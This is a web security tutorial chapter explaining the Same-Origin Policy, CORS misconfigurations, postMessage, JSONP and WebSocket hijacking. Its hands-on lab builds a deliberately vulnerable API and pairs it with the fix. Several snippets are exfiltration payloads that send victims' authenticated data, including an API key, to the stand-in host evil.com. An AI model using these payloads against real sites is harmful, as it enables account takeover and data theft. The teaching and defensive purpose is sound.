








This is Chapter 4 of the Web Fundamentals series — Notebook 6. Chapter 3 ended on cross-site
trust: `SameSite` cookies, CSRF, and the idea that the browser sometimes attaches your identity
to requests you did not intend. This chapter names the rule underneath all of that. The
**Same-Origin Policy (SOP)** is the single most important security boundary in the browser — the
fence that stops the malicious tab you opened by accident from reading your bank tab. Almost
everything the browser does to keep sites from attacking each other is either SOP, or a
deliberate, controlled hole punched in SOP.

The trouble is that SOP is widely *misunderstood*, and the misunderstandings are exactly where
the bugs live. Developers routinely believe SOP stops CSRF (it does not), or that enabling
**CORS** "turns off security" (it does the opposite — it's a controlled relaxation), or that
reflecting the `Origin` header back is a harmless way to "make CORS work" (it's a textbook
account-takeover). So we do this precisely: define origin, state exactly what SOP blocks and
what it allows, then build CORS up header by header and break each misconfiguration in a lab.

---

## Part 1: What Is an Origin?

Everything starts with the definition of an **origin**. An origin is the triple:

```
(scheme, host, port)
```

Two URLs share an origin if and only if all three match exactly. Change any one and it is a
*different* origin. This is a purely syntactic comparison — no DNS resolution, no "same company,"
no "same parent domain." The browser compares the three strings.

| URL A | URL B | Same origin? | Why |
|---|---|---|---|
| `https://app.example.com/a` | `https://app.example.com/b` | ✅ Yes | scheme+host+port identical; path is irrelevant |
| `https://app.example.com` | `http://app.example.com` | ❌ No | scheme differs (`https` vs `http`) |
| `https://app.example.com` | `https://api.example.com` | ❌ No | host differs (subdomain counts) |
| `https://example.com` | `https://example.com:8443` | ❌ No | port differs (443 vs 8443) |
| `https://example.com` | `https://example.com:443` | ✅ Yes | 443 is the default for https |

Note two subtleties that trip people up:

- **Subdomains are different origins.** `app.example.com` and `api.example.com` do *not* share an
  origin, even though they share a registrable domain. (Cookies use a looser "site" notion — the
  registrable domain — which is why `SameSite` and SOP don't line up; more in Part 9.)
- **Path and query do not matter.** `https://x.com/admin` and `https://x.com/public` are the same
  origin. SOP is not an access-control system *within* a site; it's a boundary *between* sites.

The related but distinct concept of a **"site"** (used by `SameSite` cookies and some modern
isolation features) is the *registrable domain* plus scheme — `example.com` — so
`app.example.com` and `api.example.com` are the *same site* but *different origins*. Keep the two
words separate: **origin** is stricter (includes full host + port), **site** is looser (eTLD+1).

**Security relevance:** the entire browser security model is "code from origin A must not be able
to read data from origin B without B's permission." Every rule below is an application of that
one sentence, and every bug is a place where the rule leaks.

---

## Part 2: What the Same-Origin Policy Actually Blocks

The Same-Origin Policy governs how a document or script loaded from one origin can interact with
a resource from another origin. The critical nuance — and the source of endless confusion — is
that SOP restricts **reading responses**, not **sending requests**.



Read that diagram twice. The malicious page **can** cause the browser to send a cross-origin
request, and the browser **will** attach the victim's cookies. What SOP stops is evil.com
**reading the response body**. This asymmetry is the whole reason CSRF exists (Chapter 3): the
attacker doesn't need to read the response — the side effect (the transfer) already happened.

**What SOP blocks (cross-origin):**

- Reading the **response body** of a cross-origin `fetch`/`XMLHttpRequest` (unless CORS permits).
- Reading cross-origin **DOM** — a script in one frame reading `iframe.contentDocument` of a
  cross-origin frame.
- Reading cross-origin **cookies**, `localStorage`, `sessionStorage`, IndexedDB.
- Reading pixels from a cross-origin `<canvas>` that was tainted by a cross-origin image.

**What SOP explicitly does NOT block:**

- **Sending** cross-origin requests (forms, `fetch`, images, scripts all fire cross-origin).
- **Embedding** cross-origin resources: ``, `<script src>`, `<link>`, `<iframe>`,
  `<video>` all load cross-origin by design — you just can't *read their contents* via script.
- **Navigation** to another origin (clicking a link, `window.location = ...`).
- **CSRF** — because CSRF only needs the request to be *sent*, not the response *read*.
- **Clickjacking** — because that abuses *display/framing*, defended by `X-Frame-Options` /
  CSP `frame-ancestors`, not SOP.

| Action | Cross-origin allowed by SOP? |
|---|---|
| `` | ✅ Load & display (can't read pixels) |
| `<script src="https://other.com/x.js">` | ✅ Load & execute (runs in *your* origin!) |
| `fetch("https://other.com/api")` read body | ❌ Blocked unless CORS allows |
| Form POST to `https://other.com` | ✅ Sent (this is why CSRF works) |
| `iframe.contentWindow.document` (cross-origin) | ❌ Blocked |
| `window.postMessage(...)` to a cross-origin frame | ✅ Allowed (explicit messaging channel) |

The `<script src>` row deserves a flag: an included cross-origin script executes **with your
page's privileges, in your origin**. That's why supply-chain attacks on third-party JS (a
compromised analytics script) are so devastating, and why **Subresource Integrity (SRI)** and CSP
exist. SOP doesn't sandbox included scripts — it trusts you to only include scripts you trust.

---

## Part 3: Why SOP Exists — The Attack It Prevents

Imagine SOP did not exist. You are logged into `bank.com` in one tab. You open `evil.com` in
another. `evil.com` runs:

```javascript
// In a world WITHOUT SOP — this would work and be catastrophic
fetch("https://bank.com/account", { credentials: "include" })
  .then(r => r.text())
  .then(html => {
     // read your balance, account numbers, transaction history
     navigator.sendBeacon("https://evil.com/steal", html);
  });
```

The browser would attach your `bank.com` cookies (you're logged in), the bank would return your
account page, and `evil.com` would read and exfiltrate it. Every site you're logged into would be
readable by every site you visit. The web would be unusable for anything sensitive.

SOP is what makes that `fetch` **succeed in sending but fail in reading**: the request goes out,
the bank responds, and the browser refuses to hand the response body to `evil.com`'s JavaScript,
raising a CORS error instead. Your data stays inside `bank.com`'s origin.



This is the value SOP delivers. Now the interesting question: what if `bank.com` *wants* to let
`app.bank.com` (a different origin) read its API responses on purpose? That legitimate need is
what **CORS** answers — a way for the *responding* server to opt specific origins into reading
its responses. The rest of the chapter is CORS and its failure modes.

---

## Part 4: CORS from Zero — The Server Grants Read Access

**Cross-Origin Resource Sharing (CORS)** is a protocol by which a server can tell the browser
"it's OK for this specific other origin to read my responses." It is implemented entirely with
HTTP response headers. Crucially, **CORS relaxes SOP; it never tightens it.** A server with no
CORS headers is *maximally* protected (SOP fully applies). Adding CORS headers *opens* controlled
holes. "Enabling CORS" does not "turn on security" — it selectively turns SOP *off* for named
origins.

The core mechanism: when a page makes a cross-origin `fetch`, the browser adds an **`Origin`**
request header naming the calling origin. The server inspects it and, if it wishes to grant
access, echoes back an **`Access-Control-Allow-Origin`** response header. The browser only lets
the calling script read the body if that header matches (or is `*`).

```http
# Request from https://app.example.com to https://api.example.com
GET /data HTTP/1.1
Host: api.example.com
Origin: https://app.example.com

# Response granting access
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://app.example.com
Content-Type: application/json

{"data": "..."}
```

If the server responds without `Access-Control-Allow-Origin`, or with a value that doesn't match
the request's `Origin`, the browser **blocks the read** and the `fetch` promise rejects with a
CORS error — even though the request was sent and a response came back. (The request still
reached the server and any side effects still happened; CORS is about *reading*, not *sending*.)

The key CORS response headers:

| Header | Purpose |
|---|---|
| `Access-Control-Allow-Origin` | Which origin may read the response (`*` or an exact origin) |
| `Access-Control-Allow-Credentials` | `true` if cookies/credentials may be sent & read cross-origin |
| `Access-Control-Allow-Methods` | Which HTTP methods are allowed (preflight) |
| `Access-Control-Allow-Headers` | Which request headers are allowed (preflight) |
| `Access-Control-Expose-Headers` | Which response headers JS may read |
| `Access-Control-Max-Age` | How long the browser may cache the preflight result |

`Access-Control-Allow-Origin` takes exactly one origin or the wildcard `*` — it **cannot** be a
comma-separated list. So a server that wants to allow several origins must **read the request
`Origin`, check it against an allowlist, and echo back the single matching origin.** That
reflection step is precisely where the most dangerous CORS bug lives (Part 6).

---

## Part 5: Simple Requests vs Preflight — The OPTIONS Dance

CORS splits cross-origin requests into two categories, and the distinction matters for both
functionality and security.

A **"simple request"** is one that a plain HTML form could already make before CORS existed, so
it doesn't get a preflight. A request is *simple* only if it meets **all** of:

- Method is `GET`, `HEAD`, or `POST`.
- Only "CORS-safelisted" headers are set (`Accept`, `Accept-Language`, `Content-Language`,
  and `Content-Type` limited to `application/x-www-form-urlencoded`, `multipart/form-data`, or
  `text/plain`).
- No custom headers (no `Authorization`, no `X-Custom`, no `Content-Type: application/json`).

Anything else — a `PUT`/`DELETE`/`PATCH`, a JSON `Content-Type`, an `Authorization` header, any
custom header — makes it a **"non-simple" request**, and the browser sends a **preflight**: an
automatic `OPTIONS` request that asks the server for permission *before* sending the real one.



The preflight is the browser asking, "before I send this `PUT` with a JSON body, do you allow
`PUT` and `content-type` from this origin?" If the server's `OPTIONS` response doesn't grant it
(`Access-Control-Allow-Methods`, `Access-Control-Allow-Headers`, matching `Allow-Origin`), the
browser **never sends the real request** and the `fetch` fails.

**Security relevance of the simple/preflight split:** this is the deep reason a custom header is a
CSRF defense (Chapter 3, Part 8). A cross-site attacker who adds `X-CSRF: 1` forces a preflight;
if the server doesn't CORS-allow that header/origin, the browser refuses to send the real
request. A "simple" cross-site POST, by contrast, sails through with no preflight — which is why
state-changing simple POSTs still need `SameSite`/tokens. The preflight is not a security control
the *server* enforces; it's a check the *browser* performs on the server's behalf.

**Preflight caching and `Access-Control-Max-Age`.** Preflights cost a round trip, so the browser
caches a successful preflight result for `Access-Control-Max-Age` seconds (capped by the browser —
Chrome caps at 7200s/2h, Firefox at 86400s/24h). During that window, repeated non-simple requests
to the same URL/method skip the `OPTIONS`. This is mostly a performance feature, but it has a
security wrinkle: if you *tighten* your CORS policy, clients with a cached permissive preflight
keep using the old grant until it expires. Keep `Max-Age` modest (a few minutes) on anything whose
policy you might need to change quickly, and never treat a long `Max-Age` as "set and forget."

**The methods/headers matching gotcha.** `Access-Control-Allow-Methods` and
`Access-Control-Allow-Headers` are checked against the preflight's `Access-Control-Request-Method`
and `Access-Control-Request-Headers`. A frequent dev mistake is to reflect these back wholesale
("allow whatever they asked for") — the same reflection anti-pattern as origin reflection. If a
server echoes `Access-Control-Allow-Headers: <whatever the client requested>` and also reflects the
origin with credentials, the attacker controls the entire negotiation. Pin methods and headers to a
fixed minimal set, exactly as you pin the origin.

| Request property | Preflight header that must approve it | Common mistake |
|---|---|---|
| Method `PUT`/`DELETE`/`PATCH` | `Access-Control-Allow-Methods` | allowing `*` or reflecting the requested method |
| `Content-Type: application/json` | `Access-Control-Allow-Headers: content-type` | reflecting all requested headers |
| `Authorization` header | `Access-Control-Allow-Headers: authorization` | forgetting it → real request never sent |
| Reading a custom response header | `Access-Control-Expose-Headers` | forgetting it → JS sees the header as absent |

---

## Part 6: CORS Misconfiguration — The Account-Takeover Bug

Now the payoff. CORS bugs are among the most reliably exploitable web vulnerabilities because a
single sloppy header exposes authenticated data to any attacker origin. There are three canonical
misconfigurations, in ascending danger.

### 6.1 Origin reflection with credentials (critical)

The server wants to "support CORS for our various front-ends," so it does the lazy thing: it
reads the request `Origin` and reflects it straight back, plus allows credentials:

```http
# Attacker's page sends:
Origin: https://evil.com

# Vulnerable server blindly reflects it:
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true
```

Now `evil.com` can make **credentialed** cross-origin reads of the victim's authenticated API:

```javascript
// On evil.com, while the victim is logged into api.bank.com
fetch("https://api.bank.com/account", { credentials: "include" })
  .then(r => r.text())
  .then(data => navigator.sendBeacon("https://evil.com/steal", data));
// -> SOP would have blocked this, but the reflected ACAO+credentials opens it.
// Attacker reads the victim's account data / API keys / tokens = account takeover.
```

This is a genuine account-takeover primitive: any secret the API returns (session data, API
tokens, PII, a CSRF token that then enables further attacks) is now readable by any site the
victim visits. It is one of the highest-signal findings in bug bounty.

### 6.2 The `null` origin trap

Some servers allowlist the literal string `null` (because sandboxed iframes, `data:` URLs, and
some redirects send `Origin: null`, and a developer "fixed" a bug by allowing it). An attacker
can *force* an `Origin: null` from a sandboxed iframe and win:

```html
<iframe sandbox="allow-scripts" srcdoc="
  <script>
    fetch('https://api.bank.com/account', {credentials:'include'})
      .then(r=>r.text()).then(d=>fetch('https://evil.com/?'+encodeURIComponent(d)));
  </script>">
</iframe>
```

The sandboxed iframe's requests carry `Origin: null`; the server reflects/allows `null`; the read
succeeds. **Never allowlist `null`.**

### 6.3 Sloppy allowlist matching

A server checks the `Origin` against an allowlist but uses a substring/prefix/suffix match:

| Flawed check | Bypass origin | Why it passes |
|---|---|---|
| `origin.endsWith("bank.com")` | `https://evilbank.com` | ends with `bank.com` |
| `origin.startsWith("https://bank.com")` | `https://bank.com.evil.com` | starts with the prefix |
| `origin.includes("bank.com")` | `https://bank.com.evil.com` | contains the substring |
| regex `bank\.com` unanchored | `https://bankxcom.evil.com` (dot=any) | `.` matches any char |

All of these are exploitable. **The only correct check is an exact match against a fixed
allowlist of full origins.**



**The one rule that kills all three:** `Access-Control-Allow-Origin: *` **cannot** be combined
with `Access-Control-Allow-Credentials: true` — the browser forbids it. So the *only* way to do
credentialed CORS is to name a specific origin, which means the server must validate the origin
against an exact allowlist. If you ever find `ACAO` reflecting an arbitrary origin *and*
`Access-Control-Allow-Credentials: true`, you have a critical finding.

**Bug-bounty angle:** the test is one curl. Send a bogus `Origin` and see if it's reflected with
credentials allowed:

```bash
curl -s -I https://api.target.com/account \
  -H "Origin: https://evil.com" -H "Cookie: session=..." | grep -i access-control
# VULNERABLE if you see:
#   Access-Control-Allow-Origin: https://evil.com
#   Access-Control-Allow-Credentials: true
```

---

## Part 7: The Other Cross-Origin Channels — postMessage, JSONP, WebSockets

SOP governs more than `fetch`. Three other cross-origin channels have their own rules and their
own bugs.

### 7.1 window.postMessage

`postMessage` is the *sanctioned* way for two windows/iframes of different origins to talk. One
side posts a message; the other receives it in a `message` event. It is safe **only if both
sides validate origin**.

```javascript
// SENDER — always specify the target origin, never "*" for sensitive data
otherWindow.postMessage({token: t}, "https://trusted.com");

// RECEIVER — ALWAYS check event.origin before trusting the data
window.addEventListener("message", (e) => {
  if (e.origin !== "https://trusted.com") return;   // <-- the critical check
  handle(e.data);
});
```

The two canonical bugs:

- **Missing origin check on receive.** A listener that acts on `e.data` without checking
  `e.origin` will process messages from *any* site, including an attacker's — a DOM-XSS or
  logic-bypass primitive if `e.data` flows into `innerHTML`, `eval`, or a token store.
- **`postMessage(data, "*")` with sensitive data.** Using `"*"` as the target origin broadcasts
  the message to whatever origin currently occupies the target window — an attacker who navigated
  that frame can read it. Always pin the exact target origin for anything sensitive.

### 7.2 JSONP — a pre-CORS hack that is now an attack surface

Before CORS, developers abused the `<script src>` SOP exemption to fetch cross-origin *data*: the
server wraps JSON in a JavaScript function call (`callback({...})`), the page includes it as a
script, and the function runs with the data. JSONP endpoints are a legacy liability:

- They **execute attacker-influenceable script** in your origin (the callback name is often
  reflected → XSS).
- They **leak data cross-origin by design** — any site can include your JSONP endpoint and read
  the data (there's no origin check; that was the "feature"). If a JSONP endpoint returns
  authenticated data, any site the victim visits can steal it.

If you find a JSONP endpoint (`?callback=foo`), test callback reflection for XSS and check whether
it exposes per-user data cross-origin. Modern advice: **delete JSONP, use CORS.**

### 7.3 WebSockets and Cross-Site WebSocket Hijacking (CSWSH)

WebSocket handshakes are **not** subject to SOP the way `fetch` is, and the browser attaches
cookies to the handshake. If a WebSocket endpoint authenticates purely via cookies and does
**not** validate the `Origin` header, an attacker page can open a cross-site WebSocket to it
(carrying the victim's cookies) and read/write the channel — **Cross-Site WebSocket Hijacking**.

The handshake starts as an ordinary HTTP `GET` with an `Origin` header, which is exactly the
control point:

```http
GET /chat HTTP/1.1
Host: target.com
Upgrade: websocket
Connection: Upgrade
Origin: https://evil.com          <-- server MUST reject if this isn't trusted
Cookie: session=(victim's cookie) <-- attached automatically
Sec-WebSocket-Key: dGhlIHNhbXBsZQ==
```

The attacker's page just opens the socket and reads whatever the victim's session is authorized to
see:

```javascript
// evil.com — runs while the victim is logged into target.com
const ws = new WebSocket("wss://target.com/chat");   // cookies auto-attached
ws.onopen  = () => ws.send('{"cmd":"history"}');     // request the victim's data
ws.onmessage = e => new Image().src =                // exfiltrate every message
    "https://evil.com/log?d=" + encodeURIComponent(e.data);
```

The fix is the same as CSRF: **validate `Origin` on the handshake** and/or require a CSRF-style
token bound to the session (a value the attacker page can't read). Never authenticate a WebSocket
by cookie alone.

---

## Part 8: Hands-On Lab — Prove and Exploit a CORS Misconfiguration

We build a deliberately vulnerable API, confirm the bug with curl, then write the browser
exploit that steals data. Local, safe, reproducible.

### 8.1 Stand up a vulnerable CORS API

```python
# corsapi.py — reflects Origin + allows credentials (the classic bug)
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route("/account")
def account():
    resp = jsonify(user="alice", apiKey="sk_live_9f2a...secret", balance=48210)
    origin = request.headers.get("Origin")
    if origin:                                   # BUG: reflect any origin
        resp.headers["Access-Control-Allow-Origin"] = origin
        resp.headers["Access-Control-Allow-Credentials"] = "true"
    return resp

app.run(port=5002)
```

```bash
pip install flask
python3 corsapi.py &
```

### 8.2 Confirm the bug with curl (the 10-second test)

```bash
curl -s -I http://localhost:5002/account -H "Origin: https://evil.com" | grep -i access-control
```

Realistic output — the tell-tale reflected origin + credentials:

```http
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true
```

Any origin you send comes back allowed, *with credentials*. That's the vulnerability confirmed
without a browser.

### 8.3 Weaponize it in the browser

An attacker hosts this page; a logged-in victim visits it:

```html
<!-- evil.com/steal.html -->
<script>
fetch("http://localhost:5002/account", { credentials: "include" })
  .then(r => r.json())
  .then(data => {
     // exfiltrate: send the stolen API key + balance to the attacker
     new Image().src = "https://evil.com/log?d=" + encodeURIComponent(JSON.stringify(data));
     document.body.innerText = "stolen: " + JSON.stringify(data);
  })
  .catch(e => document.body.innerText = "blocked: " + e);
</script>
```

Because the API reflects `Origin: https://evil.com` and allows credentials, the browser lets
`evil.com` read the JSON — `apiKey`, `balance`, everything. That is account takeover.

### 8.4 Fix it and watch the exploit die

Replace the reflection with an exact allowlist:

```python
ALLOWED = {"https://app.trusted.com"}     # exact origins only

@app.route("/account")
def account():
    resp = jsonify(user="alice", apiKey="sk_live_...", balance=48210)
    origin = request.headers.get("Origin")
    if origin in ALLOWED:                  # exact match, no reflection
        resp.headers["Access-Control-Allow-Origin"] = origin
        resp.headers["Access-Control-Allow-Credentials"] = "true"
    return resp
```

Re-run the curl test with `Origin: https://evil.com` and there are now **no** CORS headers — SOP
fully applies, the browser blocks `evil.com`'s read, and `.catch` fires with a CORS error. One
change (reflect → exact-match allowlist) closes the hole.

You've now confirmed a CORS misconfig from the command line, exploited it from a browser to steal
authenticated data, and killed it with an exact-match allowlist — the full lifecycle of the most
common CORS finding.

---

## Part 9: How SOP, CORS, Cookies and CSP Fit Together

Four browser mechanisms are constantly conflated. Here is the map that keeps them straight —
because misattributing a defense (thinking SOP stops CSRF, or CORS stops clickjacking) is how
real gaps get shipped.

| Mechanism | Boundary it uses | What it protects | What it does NOT do |
|---|---|---|---|
| Same-Origin Policy | Origin (scheme+host+port) | Stops cross-origin **reading** of responses/DOM/storage | Doesn't stop **sending** requests (→ CSRF) or framing (→ clickjacking) |
| CORS | Origin | Lets a server **grant** cross-origin read access safely | Isn't a server-side access control; misconfig = data theft |
| `SameSite` cookies | Site (eTLD+1) | Stops cookies auto-attaching on cross-**site** requests (→ CSRF) | Doesn't isolate reads; site ≠ origin |
| CSP `frame-ancestors` / XFO | Origin | Stops your page being **framed** (→ clickjacking) | Doesn't govern fetch/read |

Two traps worth stating explicitly:

- **SOP does not stop CSRF.** CSRF needs only that the request be *sent* (SOP allows that) with
  cookies auto-attached (cookies use the looser "site" rule). The defense is `SameSite` + CSRF
  tokens, from Chapter 3 — not CORS, not SOP.
- **CORS does not protect the server.** CORS decides whether the *browser* lets a *script* read a
  response. A non-browser client (curl, a backend, Burp) ignores CORS entirely and reads whatever
  the server returns. CORS is **not** authorization; it never replaces server-side access control.



The **Content-Security-Policy** header deserves its own note because it's the modern superset of
several of these controls: `frame-ancestors` replaces `X-Frame-Options` (anti-clickjacking),
`connect-src` limits where `fetch`/WebSocket can go, `script-src` limits which scripts run
(mitigating the `<script src>` trust problem and XSS), and `default-src` sets the baseline. CSP
doesn't replace SOP or CORS; it layers *additional* origin-based restrictions on top, mostly to
contain XSS. A dedicated chapter covers CSP in depth; here, place it as "the header that lets a
site tighten what its own pages are allowed to load and do."

---

## Part 10: Advanced Corners — Crossorigin, SRI, COOP/COEP, Canvas Tainting

A few advanced mechanisms that experienced engineers meet and that appear in real bugs.

**`crossorigin` attribute + Subresource Integrity (SRI).** When you include a third-party script
`<script src="https://cdn.example/lib.js" integrity="sha384-..." crossorigin="anonymous">`, the
`integrity` hash makes the browser refuse to run the file if it doesn't match — defending against
a compromised CDN. `crossorigin="anonymous"` requests the resource without credentials and opts
into CORS so the browser can read enough to report errors and enforce SRI. This is your defense
for the "included scripts run in your origin" problem from Part 2.

**Canvas tainting.** Drawing a cross-origin image onto a `<canvas>` "taints" it: `toDataURL()`
and `getImageData()` then throw, because otherwise a script could read pixels of a cross-origin
image (a data leak). A properly CORS-enabled image loaded with `crossorigin="anonymous"` and an
`Access-Control-Allow-Origin` from the image host is *not* tainting and can be read — the same
